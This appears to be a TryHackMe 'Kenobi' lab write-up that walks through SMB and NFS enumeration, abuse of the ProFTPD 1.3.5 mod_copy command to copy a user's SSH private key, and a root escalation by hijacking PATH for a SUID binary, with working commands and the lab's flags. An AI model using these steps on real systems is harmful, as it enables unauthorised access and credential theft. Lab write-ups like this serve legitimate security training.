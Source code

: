 # 🛡️ Kenobi — TryHackMe Write-Up

> Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.  
> Room: **[Kenobi](https://tryhackme.com/room/kenobi)**

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/46f437a95b1de43238c290a9c416c8d4.png" alt="Kenobi banner" />
</p>

<p align="center">
  <a href="https://tryhackme.com/room/kenobi"><img src="https://img.shields.io/badge/TryHackMe-Kenobi-red?logo=tryhackme&logoColor=white" /></a>
  <img src="https://img.shields.io/badge/Difficulty-Intermediate-orange" />
  <img src="https://img.shields.io/badge/Focus-SMB%20%7C%20FTP%20%7C%20PrivEsc-blue" />
  <img src="https://img.shields.io/badge/Platform-Linux-black?logo=linux" />
</p>

---

## 📚 Table of Contents
- [About](#-about)
- [Topics Covered](#-topics-covered)
- [Appendix Archive](#-appendix-archive)
- [Deploy the Machine](#-deploy-the-machine)
- [Enumeration](#-enumeration)
- [SMB Enumeration & Exploitation](#-smb-enumeration--exploitation)
- [ProFTPD Exploit (mod_copy)](#proftpd-exploit-mod_copy)
- [Mounting NFS & Initial Access](#-mounting-nfs--initial-access)
- [Privilege Escalation (PATH manipulation)](#-privilege-escalation-path-manipulation)
- [Answers (Hidden)](#-answers-hidden)
- [Further Reading & Credits](#-further-reading--credits)

---

## 🔎 About
This write-up documents the Kenobi TryHackMe room. The goal is to enumerate network services (SMB/NFS/FTP), abuse a vulnerable ProFTPD `mod_copy` module to retrieve an SSH key, access the user account, and escalate to root via a misconfigured SUID binary that uses the PATH environment variable insecurely.

> **Use only on authorised machines and lab environments.**

---

## ✅ Topics Covered
- Network Enumeration
- SMB Enumeration
- SMB Exploitation (anonymous shares)
- ProFTPD `mod_copy` abuse (unauthenticated file copy)
- Mounting NFS exports
- Privilege Escalation via PATH manipulation and SUID binaries

---

## 🚀 Deploy the Machine
1. Connect to the TryHackMe network and deploy the Kenobi machine.  
`No answer needed`

2. Scan the machine with `nmap` to discover services (example output preserved below in CLI block).

```bash
kali@kali:~/CTFs/tryhackme/Kenobi$ sudo nmap -A -p- MACHINE_IP
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 19:52 CEST
Nmap scan report for MACHINE_IP
Host is up (0.030s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
...
Nmap done: 1 IP address (1 host up) scanned in 60.38 seconds
```

**How many ports are open?**  
`7`

---

## 🧭 SMB Enumeration & Shares
Use `nmap`'s SMB scripts to enumerate shares:

```bash
sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```

Example output (preserved from lab):

```
| smb-enum-shares:
|   account_used: guest
|   \MACHINE_IP\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Path: C:	mp
|     Anonymous access: READ/WRITE
|   \MACHINE_IP\anonymous:
|     Type: STYPE_DISKTREE
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|   \MACHINE_IP\print$:
|     Type: STYPE_DISKTREE
|     Path: C:ar\lib\samba\printers
|     Anonymous access: <none>
```

**How many shares have been found?**  
`3`

Connect with `smbclient` to the `anonymous` share and list files (CLI preserved):

```bash
smbclient //MACHINE_IP/anonymous
# then at the smb prompt:
ls
```
You should see a file named `log.txt` on the share.

You can recursively download the share with `smbget -R smb://MACHINE_IP/anonymous` and inspect files like `log.txt` to find clues (SSH key info, ProFTPD notes).

**What port is FTP running on?**  
`21`

Use `nmap` to enumerate NFS exports:

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
```

**What mount can we see?**  
`/var`

---

## ⚙️ ProFTPD — mod_copy Exploit (Initial Access)
ProFTPD 1.3.5 with `mod_copy` allows unauthenticated clients to issue `SITE CPFR` and `SITE CPTO` to copy files. We can copy `/home/kenobi/.ssh/id_rsa` to `/var/tmp/id_rsa`:

```
nc MACHINE_IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [MACHINE_IP]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

`No answer needed`

---

## 🗂️ Mount NFS & Retrieve SSH Key (Local Machine)
On your attacking machine, mount the NFS export and retrieve the copied SSH private key:

```bash
mkdir /mnt/kenobiNFS
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@MACHINE_IP
```

Once logged in as `kenobi`, view the `user.txt`:

```
kenobi@kenobi:~$ cat user.txt
<hidden - click to reveal below>
```

---

## 🔐 Privilege Escalation — PATH Variable Manipulation
Find SUID binaries that may be dangerous:

```bash
find / -perm -u=s -type f 2>/dev/null
```

One unusual SUID binary is `/usr/bin/menu`.

Run the binary to see available options (preserve CLI output):

```bash
/usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

Because `menu` calls common utilities **without full paths**, we can inject a fake binary into our `PATH`. Example (done on the target):
```bash
cd /tmp
echo /bin/bash > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
# choose option that triggers curl (or similar) → root shell!
```

This grants a root shell due to the binary running with elevated privileges and using our `PATH` to resolve commands.

---

## 🧩 Answers (Hidden)
Click to reveal the answers and flags found during the lab.

<details>
  <summary><strong>Kenobi user.txt</strong> (click to reveal)</summary>

  ```txt
  d0b0f3f53b6caa532a83915e19224899
  ```
</details>

<details>
  <summary><strong>Kenobi root.txt</strong> (click to reveal)</summary>

  ```txt
  177b3cd8562289f37382721c28381f02
  ```
</details>

---

## 📚 Further Reading & Credits
- ProFTPD `mod_copy` exploit details and PoCs (searchsploit entries for ProFTPD 1.3.5)  
- NFS and RPC enumeration techniques  
- PATH-based privilege escalation writeups and SUID pitfalls

---

### ⚠️ Disclaimer
This write-up is for **educational purposes only**. Do not attempt these techniques on systems you do not own or have explicit permission to test.

